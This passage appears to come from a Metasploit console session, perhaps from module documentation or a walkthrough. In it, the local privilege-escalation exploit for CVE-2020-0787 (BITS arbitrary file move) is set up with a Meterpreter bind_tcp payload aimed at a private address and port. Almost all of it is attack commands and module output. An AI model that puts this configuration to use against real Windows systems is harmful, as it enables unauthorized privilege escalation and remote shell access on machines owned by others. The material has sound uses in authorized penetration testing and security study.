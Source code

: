    Id  Name
   --  ----
   0   Windows DLL Dropper


msf exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set PAYLOAD windows/x64/meterpreter/bind_tcp
PAYLOAD => windows/x64/meterpreter/bind_tcp
msf exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > show options

Module options (exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   JOB_WAIT_TIME  60               yes       Time to wait for the BITS job to complete before starting the USO service to execute the uploaded payload, in seconds
   OVERWRITE_DLL  false            yes       Overwrite WindowsCoreDeviceInfo.dll if it exists (false by default).
   SESSION                         yes       The session to run this module on.


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST                      no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Windows DLL Dropper


msf exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set RHOST 172.26.22.128
RHOST => 172.26.22.128
msf exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set LPORT 9988
LPORT => 9988
msf exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > show options

Module options (exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   JOB_WAIT_TIME  60               yes       Time to wait for the BITS job to complete before starting the USO service to execute the uploaded payload, in seconds
   OVERWRITE_DLL  false            yes       Overwrite WindowsCoreDeviceInfo.dll if it exists (false by default).
   SESSION                         yes       The session to run this module on.


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     9988             yes       The listen port
   RHOST     172.26.22.128    no        The target address
